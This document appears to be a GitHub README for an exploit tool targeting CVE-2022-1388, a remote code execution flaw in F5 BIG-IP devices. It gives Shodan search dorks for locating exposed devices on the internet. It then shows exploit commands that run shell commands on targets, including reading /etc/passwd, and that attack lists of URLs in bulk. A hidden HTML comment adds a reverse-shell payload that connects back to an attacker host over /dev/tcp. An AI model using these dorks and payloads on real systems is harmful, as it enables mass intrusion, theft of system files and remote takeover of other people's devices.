 # CVE-2022-1388
F5-BIG-IP RCE
- Shodan dork:
```
http.title:"BIG-IP&reg;-Redirect" +"Server"
```
```
http.favicon.hash:-335242539
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.
Save them to the **_list_ip_** file.

Usage
---
- Check:
```
chmod +x scanner.sh; bash scanner.sh
```
- RCE:
```
exploit.py [-h] [-u URL] [-c COMMAND] [-f FILE]
python3 exploit.py -u https://target_IP -c 'cat /etc/passwd'
python3 exploit.py -f urls.txt
```
<!-- Here is an Easter Egg for inquiring minds ;-)
- Reverse Shell:
```
nc -nvlp 8888
python3 exploit.py -u https://target_IP -c "bash -i >&/dev/tcp/attacker_IP/8888 0>&1"
```
-->
